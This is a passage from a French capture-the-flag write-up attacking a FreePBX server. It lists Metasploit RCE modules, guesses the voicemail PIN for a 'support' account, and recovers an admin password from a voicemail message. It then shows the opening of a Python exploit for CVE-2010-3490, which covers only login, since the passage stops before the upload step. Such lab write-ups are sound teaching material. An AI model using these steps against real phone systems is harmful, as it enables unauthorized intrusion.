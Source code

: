 J'ai jeté aussi un coup d’œil dans les modules *Metasploit* : deux modules existent mais je n'ai pas eu de résultats probants et suis resté en *"manuel".*  

```plain
exploit/unix/http/freepbx_callmenum      2012-03-20       manual     FreePBX 2.10.0 / 2.9.0 callmenum Remote Code Execution
exploit/unix/webapp/freepbx_config_exec  2014-03-21       excellent  FreePBX config.php Remote Code Execution
```

Après plusieurs tentatives sur */recordings/* je trouve le mot de passe *000* pour le compte *support* (extension *2000*).  

Une fois connecté on trouve deux messages enregistrés (au format wav) à télécharger. L'un est simplement *"Good bye"* mais l'autre est le suivant :  

> Hey Mark, I think the support web access account has been compromised.  
> 
> I have changed the password to securesupport123 all one word and lowercase.  
> 
> You can log using the usual address.  
> 
> See you in the morning.

PBXploitation
-------------

Via l'interface */admin/* il est alors possible de se connecter avec *support* / *securesupport123*.  

Le numéro de version affiché pour *FreePBX* est ici le 2.7.0.0.  

Il faut croire que l'auteur du challenge a installé des parties de deux versions différentes (peut être pour fournir des vulnérabilités spécifiques).  

Comme l'exploit de *Metasploit* pour la faille d'upload n'avait pas l'air d'aboutir je me suis basé sur un advisory de *Trustwave's SpiderLabs* trouvé sur *exploit-db* et j'ai codé l'exploit suivant (du coup je l'ai soumis à *SecurityFocus* au cas où) :  

```python
import requests
import random
import string
import sys

# Original advisory : http://www.exploit-db.com/exploits/15098/

print("devloop exploit for FreePBX <= 2.8.0 (CVE-2010-3490)")
if len(sys.argv) != 4:
    print("Usage: {0} <url_to_freepbx_admin_directory> <username> <password>")
    sys.exit()

BASE = sys.argv[1]
USER = sys.argv[2]
PASS = sys.argv[3]
KEYW = "devloop"

if not BASE.endswith("/"):
    BASE += "/"

sess = requests.session()
creds = (USER, PASS)

r = sess.get(BASE + "config.php", auth=creds)
if "Logged in:" in r.content:
    print("[+] Connection successful")
else:
    print("[!] Unable to login... check credentials and url")
```